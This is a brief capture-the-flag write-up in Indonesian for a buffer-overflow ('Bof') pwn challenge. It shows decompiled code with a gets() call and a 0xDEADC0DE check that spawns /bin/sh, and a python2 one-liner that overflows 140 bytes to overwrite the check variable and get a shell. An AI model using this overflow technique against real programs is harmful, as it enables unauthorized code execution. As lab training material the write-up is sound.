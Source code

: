 # Bof | Pwn

## Solution
- Terdapat file ELF binary yang menerima input user menggunakan fungsi gets yang vuln buffer overflow
- Decompile dan akan terlihat:
```
  gets_0(&v5);
  if ( v6 == 0xDEADC0DE )
  {
    sub_401090(10LL);
    sub_4010A0("[*] Backdoor actived");
    sub_4010A0("[*] Access granted...");
    sub_4010B0("/bin/sh");
  }
```
- nilai buffer adalah 0x90, jadi untuk mengoverwrite nilai v6 yang ada di rsp dubutuhkan sebanyak 140 buffer
- overwrite nilai v6 menjadi 0xDEADC0DE dengan command:
```
(python2 -c 'import struct; print "A"*140 + struct.pack("I", 0xdeadc0de)'; cat -) | ./pwn
```
- Shell tereksekusi
